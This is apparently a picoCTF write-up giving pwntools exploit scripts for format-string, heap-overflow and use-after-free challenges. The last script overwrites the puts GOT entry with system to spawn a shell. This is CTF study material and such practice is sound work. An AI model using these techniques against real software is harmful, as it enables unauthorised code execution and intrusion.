 # Binary Exploitation

## format string 0
It named 'format string' but just a ROP attack.<br />

![Image](../images/fs01.png)

```Python
from pwn import *
e = ELF("format-string-0",checksec=False)
p = process("format-string-0")
#p = remote("mimas.picoctf.net",64654)
p.recv()
payload = b"A"*56

payload += p64(e.sym['sigsegv_handler'])

p.sendline(payload)
print(p.recvall())
```
## heap 0
Just a heap overflow.<br />
```Python
from pwn import *

p = remote("tethys.picoctf.net",55418)

print(p.recv())
p.sendline(b"2")
print(p.recv())
p.sendline(b"A"*36)
p.recv()
p.sendline(b"4")
print(p.recvall())
```
## format string 1
Just a format string vulnerability.<br />
Input '%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/' to read stacks.<br />

```Python
from pwn import *

# result of input '%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/'
s = "402118/0/7f827b710a00/0/215e880/a347834/7ffd65019fc0/7f827b501e60/7f827b7264d0/1/7ffd6501a090/0/0/7b4654436f636970/355f31346d316e34/3478345f33317937/34365f673431665f/7d363131373732/7/7f827b7288d8/2300000007/206e693374307250/a336c797453/9/7f827b739de9/7f827b50a098/7f827b7264d0/0/7ffd6501a0a0/2f786c252f786c25/2f786c252f786c25/2f786c252f786c252f786c252f786c25/2f786c252f786c25/2f786c252f786c25/2f786c252f786c25/"

words = s.split("/")

for w in words:
    try:
        print((bytes.fromhex(w).decode())[::-1],end="")
    except:
        print("/",end="")
```
## heap 1
Just a heap overflow<br />
```Python
from pwn import *

#p = process("chall")
p = remote("tethys.picoctf.net", 54557)

print(p.recv().decode())

p.sendline(b"2")

print(p.recv().decode())

payload = b"A"*32 + b"pico"

p.sendline(payload)

p.recv()
p.sendline(b"4")

print(p.recvall().decode())
```
## heap 2
Just a heap overflow.<br />
```C
void check_win() { ((void (*)())*(int*)x)(); }
```
This function runs function where address is x.<br />
So overwrite x into win().<br />

```Python
from pwn import *

p = process("chall")
e = ELF("chall",checksec=False)
#p = remote("mimas.picoctf.net", 51204)

print(p.recv().decode())

p.sendline(b"2")

print(p.recv())
payload = b"A"*32 + p64(e.sym['win'])

p.sendline(payload)

p.recvline()
p.sendline(b"4")
print(p.recvall().decode())
```
## heap 3
There's vulnerability of 'use after free'.<br />
malloc() took a same heap memory if malloc() took same size after free().<br />
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct {
  char a[10];
  char b[10];
  char c[10];
  char flag[5];
} object;

int main(void){
    //Check Size of object
    printf("%ld",sizeof(object));

    return 0;
}
```
The size of object is 34.<br />
1. Free x
2. Allocate object
3. Input size : 34
4. Input data : 'A'*30 + 'pico'
5. Check to win
## format string 2
There's format string vulnerability and I have to change the value of 'sus'.<br />
pwntools is powerful for solve this challenge.<br />
```Python
from pwn import *

p = process("vuln")
#p = remote("rhea.picoctf.net", 58588)

print(p.recv().decode())

elf = ELF('./vuln')
sus = elf.sym['sus']

context.clear(arch = 'amd64')

print(sus)

payload = fmtstr_payload(14,{sus : 0x67616c66})

print(payload.decode())
p.sendline(payload)

print(p.recvall().decode())
```
## format string 3
There's also format string vulnerability and there's interesting string, '/bin/sh'.<br />
Both 'puts' and 'system' are also take argument in RDI.<br />
So change the puts address to system, it's makes system('/bin/sh').<br />
There's GOT that hold address of libc,and we can get setvbuf address.<br />
Calculate system() address and overwrite, I can exploit successfully.
```Python
from pwn import *

e = ELF('format-string-3')
libc = ELF('libc.so.6')

p = process("format-string-3")
#p = remote("rhea.picoctf.net", 53699)

print(p.recvuntil(b"libc: ").decode())

libcSetvbuf = p.recvline().replace(b"\n",b"").decode()

print(libcSetvbuf)

putsGot = e.got['puts']
print("<elf> ::GOT     => " , hex(e.got['puts']))
print("<libc>::setvbuf    => ",hex(libc.sym['setvbuf']))
print("<libc>:::system => ",hex(libc.sym['system']))
context.clear(arch = 'amd64')

addr =libc.sym['system'] - libc.sym['setvbuf'] + int(libcSetvbuf,16)

payload = fmtstr_payload(38, {e.got['puts'] : addr})


print(payload)

p.sendline(payload)

p.interactive()
```
